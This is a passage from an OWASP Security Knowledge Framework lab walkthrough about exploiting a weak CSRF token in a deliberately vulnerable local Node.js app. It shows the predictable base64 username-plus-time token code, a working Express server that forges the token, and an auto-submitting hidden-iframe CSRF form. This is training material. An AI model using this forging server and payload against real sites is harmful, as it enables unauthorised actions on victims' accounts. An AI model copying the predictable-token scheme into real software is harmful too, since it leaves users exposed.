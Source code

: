 # CSRF - Weak

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-csrf-weak
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-csrf-weak
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

![](../../.gitbook/assets/nodejs/CSRF-weak/1.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](../../.gitbook/assets/nodejs/CSRF-weak/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](../../.gitbook/assets/nodejs/CSRF-weak/3.png)

Also we can see that the application is using a csrf_token

```html
    <form method="post" action="/update">
        <input type="hidden" class="form-control" name="csrf_token" value="<%=csrf_token %>">
        <input type="text" class="form-control" name="color" placeholder="favorite color"/><br/>
        <button class="btn btn-primary" type="submit">Submit Button</button></div>
    </form>
```

Looks like it's Base64 encoded, try decode it.

![](../../.gitbook/assets/nodejs/CSRF-weak/4.png)

The csrf token is simply username + time.

Checking the application code we can how this csrf_token is being implemented.

```javascript
  const username = req.body.username;
  const password = req.body.password;
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  db.get(sql, [username, password], (err, row) => {
    if (row) {
      const date = new Date();
      const time = date.getHours() + ":" + date.getMinutes();
      let csrf_token = username + time;
      session = req.session;
      session.userId = row.UserId;
      session.loggedIn = true;
      session.csrf_token = Buffer.from(csrf_token).toString("base64");
```

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from and sending the weak csrf_token with. We could achieve this by creating the following express application:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  const date = new Date();
  const time = date.getHours() + ":" + date.getMinutes();
  const csrf_token = "admin" + time;
  const encoded_csrf_token = Buffer.from(csrf_token).toString("base64");
  res.render("evil.ejs", { csrf_token: encoded_csrf_token });
});

app.use(function (req, res) {
  res.status(404).render("404.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () =>
  console.log(`Listening on port ${port}...!!!`)
);
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodejs express.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="http://localhost:5000/update"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="csrf_token" value="<%= csrf_token %>" />
  <input type="hidden" name="color" value="Hackzord!" />
  <input type="submit" value="submit" />
</form>
<script>
  document.getElementById("csrf-form").submit();
</script>
```

Save the snippet above to &gt; views/evil.ejs and run the command below to start our evil application.

```text
$ node evil_server.js
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from and we have our forged csrf_token with the request.

![](../../.gitbook/assets/nodejs/CSRF-weak/5.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](../../.gitbook/assets/nodejs/CSRF-weak/6.png)

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/csrf" %}
